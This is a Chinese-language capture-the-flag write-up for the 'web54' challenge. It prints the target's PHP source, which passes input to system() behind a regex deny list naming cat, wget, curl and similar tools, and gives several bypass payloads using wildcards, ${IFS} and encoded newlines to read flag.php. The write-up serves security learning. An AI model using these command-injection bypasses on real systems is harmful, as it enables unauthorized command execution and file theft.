 ```
c%27%27at${IFS}fla%27%27g.php
```

#### web54

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

这题过滤了很多命令,题目通过*使得只要是传入的内容出现如cat三个字符即可被匹配到，无法使用之前的字符拼接方法绕过

这题没过率通配符?

解一

```
/bin/?at${IFS}f???????
```

cat命令所在的路径是在/bin/目录下，所以这里相当于直接调用了cat文件执行命令，这里的cat可以看作命令，也是一个文件，所以通配符可以用在这上面（一开始还傻傻的换成uniq看能不能用hhh）。

bin下的命令：[Linux /bin 目录下命令简要说明 - 崔旗 - 博客园](https://www.cnblogs.com/cuiqi1314/articles/7339776.html)

同理bin目录下还存在more，所以这里的cat我们换成more也可以读取flag。
解二

```
vi${IFS}fla?.php 
or
c=uniq${IFS}f???.php //倒序的
or
grep${IFS}%27fla%27${IFS}f???????%0a
```
